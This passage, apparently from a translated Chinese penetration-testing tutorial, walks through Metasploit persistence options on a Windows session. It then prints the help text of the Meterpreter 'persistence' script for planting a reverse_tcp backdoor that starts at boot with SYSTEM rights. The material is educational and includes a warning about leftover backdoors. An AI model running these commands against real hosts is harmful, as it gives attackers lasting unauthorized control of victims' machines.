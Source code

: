 ```
    registry.

```

让模块使用默认设置运行大部分设置。我们将使用以下命令运行：

+   `set SESSION 4`：设置为当前运行的会话

+   `set STARTUP SYSTEM`：这将设置持久有效负载以作为系统漏洞运行

![](img/159b1ea5-1ef9-462c-972b-78f3dad47c98.png)

看来我们的漏洞利用失败了。我们收到了 PowerShell 不可用的警告。漏洞利用确实写入了注册表，但请注意，当运行完成时没有启动新会话。这告诉我们，由于未找到 PowerShell，我们的运行失败了。由于找不到 PowerShell，让我们尝试通过从运行会话的 Meterpreter shell 添加持久性并从 VB 脚本运行漏洞利用的旧方法。

需要记住的是，这种类型的利用不需要登录，因此在生产系统上，如果不删除，这将是一个开放的后门，并且如果在机器上继续运行，另一个攻击者可以访问它。

您可以通过从运行的 Meterpreter 会话中运行以下命令来阅读持久性脚本的帮助文件。正如您所看到的，持久性脚本被列为已弃用，但由于较新的后期利用未能奏效，最好回退到较旧的方法：

```
    sessions -i 4 Interact with the running session.
    run persistence -h To view the help files.

    meterpreter > run persistence -h

    [!] Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
    [!] Example: run post/windows/manage/persistence_exe OPTION=value [...]
    Meterpreter Script for creating a persistent backdoor on a target host.

    OPTIONS:

    -A  Automatically start a matching exploit/multi/handler to connect to the agent
    -L <opt> Location in target host to write payload to, if none %TEMP% will be used.
    -P <opt> Payload to use, default is windows/meterpreter/reverse_tcp.
    -S  Automatically start the agent on boot as a service (with SYSTEM privileges)
    -T <opt> Alternate executable template to use
    -U  Automatically start the agent when the User logs on
    -X  Automatically start the agent when the system boots
    -h  This help menu
    -i <opt> The interval in seconds between each connection attempt
    -p <opt> The port on which the system running Metasploit is listening
    -r <opt> The IP of the system running Metasploit listening for the connect back  
```
